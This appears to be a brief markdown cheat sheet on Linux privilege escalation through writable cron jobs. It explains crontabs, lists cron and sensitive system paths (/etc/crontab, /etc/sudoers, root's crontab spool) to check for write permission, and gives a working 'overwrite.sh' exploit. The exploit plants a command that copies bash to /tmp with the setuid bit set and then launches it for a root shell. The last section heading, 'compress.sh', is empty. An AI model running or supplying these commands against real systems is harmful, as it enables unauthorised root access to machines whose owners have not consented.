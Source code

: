

   ### Cron jobs are programs or scripts which users can schedule to run at specific times or intervals. 
   ### Cron table files (crontabs) store the configuration for cron jobs. 
   ### The system-wide crontab is located at /etc/crontab.
    
          cat /etc/crontab
          locate overwrite.sh
          
          
          
   ### Cron jobs

          Check if you have access with write permission on these files.   
          Check inside the file, to find other paths with write permissions.   

          ```powershell
            /etc/init.d
            /etc/cron*
           /etc/crontab
          /etc/cron.allow
         /etc/cron.d 
         /etc/cron.deny
          /etc/cron.daily
           /etc/cron.hourly
            /etc/cron.monthly
             /etc/cron.weekly
              /etc/sudoers
               /etc/exports
                /etc/anacrontab
                 /var/spool/cron
                   /var/spool/cron/crontabs/root
          
          
          
          
   ## overwrite.sh Exploit
   
         echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
         chmod +x /home/user/overwrite.sh
         /tmp/bash -p




   ## compress.sh
   
     
